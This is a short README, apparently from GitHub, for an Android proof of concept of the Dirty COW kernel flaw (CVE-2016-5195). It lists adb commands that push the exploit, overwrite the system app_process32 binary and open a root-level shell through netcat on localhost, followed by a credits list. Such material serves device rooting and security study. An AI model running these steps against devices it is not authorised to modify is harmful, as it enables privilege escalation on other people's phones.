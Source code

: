 # limited_shell_root

limited_shell_root CVE-2016-5195 (dirty cow/dirtycow/dirtyc0w) proof of concept for Android

How to use.

Once compiled

adb push dirtycow /data/local/tmp/dirtycow

adb push recowvery-app_process32 /data/local/tmp/recowvery-app_process32

adb shell chmod 0777 /data/local/tmp/*

adb shell /data/local/tmp/dirtycow /system/bin/app_process32 /data/local/tmp/recowvery-app_process32

adb shell

toybox nc localhost 11112

Shell is now active type ls

Credits

naikel

cloud1250000

timwr

jcadduono

brenns10

mrmazak

